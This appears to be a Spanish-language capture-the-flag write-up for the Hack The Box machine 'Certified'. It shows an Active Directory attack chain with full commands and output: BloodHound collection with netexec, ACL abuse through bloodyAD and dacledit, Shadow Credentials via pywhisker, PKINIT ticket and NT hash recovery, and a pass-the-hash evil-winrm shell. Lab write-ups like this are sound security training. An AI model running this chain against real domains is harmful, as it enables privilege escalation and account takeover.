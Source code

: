 Bueno maquina windows

---

## Nmap Summary
| Port | Software    | Version                                 | Status  |
| ---- | ----------- | --------------------------------------- | ------- |
| 53   | domain      | Simple DNS                              | open    |
| 80   | http        | Apache http 2.4.29                      | open    |
| 139  | netbios-sec | Microsfot Windows netbios-ssn           | open    |
| 389  | ldap        | Microsoft Windows Active Directory LDAP | open    |




Usamos Netexex para sacar los datos para Bloodhound

```bash
nxc ldap dc01.certified.htb -u judith.mader -p judith09 --bloodhound --collection All --dns-tcp --dns-server 10.10.11.41

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\judith.mader:judith09 
LDAP        10.10.11.41     389    DC01             Resolved collection methods: localadmin, objectprops, acl, dcom, container, trusts, psremote, group, rdp, session
LDAP        10.10.11.41     389    DC01             Done in 00M 11S
LDAP        10.10.11.41     389    DC01             Compressing output into /home/cher0/.nxc/logs/DC01_10.10.11.41_2025-01-28_002747_bloodhound.zip

```



# BLOODHOUND


1. **Judith Mader's Permissions**:
2. Judith Mader has **WriteOwner** permissions on the Management group.
3. **Service Account (Management_SVC)**:
4. The Management_SVC account has **GenericWrite** permissions over the Management group.
5. **CA_Operator Privilege**:
6. The Management_SVC account has **GenericAll** permissions over the CA_Operator user.





#### 1. Data Collection with nxc





Usamos BloodyAD 
https://github.com/CravateRouge/bloodyAD.git

Se usa bloodyAd para hacer  a judith owner del Grupo Management!
```bash
bloodyAD --host "$IP" -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```


### Dacledit (impacket)

Modificamos los permisos del grupo con dacledit

```bash
└─# python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,N  Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250128-100158.bak
[*] DACL modified successfully!

```

Metemos a judith en Management
```bash
python3 bloodyAD.py --host $IP -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
[+] judith.mader added to Management

```

##### 5. Exploiting KeyCredentialLink

```
python3 pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add 
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3245a0ff-4c14-b1c4-dd73-e1caabc9d6f0
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 2edmEK5f.pfx
[*] Must be used with password: FE2RL7C3C8FT44c3EV9H
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

```

PKINITtools
Usamos PKINIT para obtener el ticket (TGT)
```bash
 python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx /home/cher0/HTB/Certified/pywhisker/2edmEK5f.pfx  -pfx-pass FE2RL7C3C8FT44c3EV9H pwn.ccache
2025-01-28 17:13:54,588 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-01-28 17:13:54,606 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-01-28 17:14:06,825 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-01-28 17:14:06,825 minikerberos INFO     fbd1f3ce1b49bf35543ab5c200f2fad1681cd7be4efd566bbc694b18181000cc
INFO:minikerberos:fbd1f3ce1b49bf35543ab5c200f2fad1681cd7be4efd566bbc694b18181000cc
2025-01-28 17:14:06,828 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Ahora usamos gethash para solicitar el NThash con el ccache

Para usar la herramienta debemos establecer la variable KRB5CCNAME al archivo ccache que nos proporciono gettgtpkinit:
```bash
export KRB5CCNAME=pwn.ccache    
➜  PKINITtools git:(master) python3 getnthash.py certified.htb/management_svc -key fbd1f3ce1b49bf35543ab5c200f2fad1681cd7be4efd566bbc694b18181000cc                                   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584

```

Una vez obtenido el hash podemos loguearnos con evil-winrm
```bash
 evil-winrm -i $IP -H a091c1832bcdd4677c28b5a6a1295584 -u management_svc
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                     
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> 

```

---

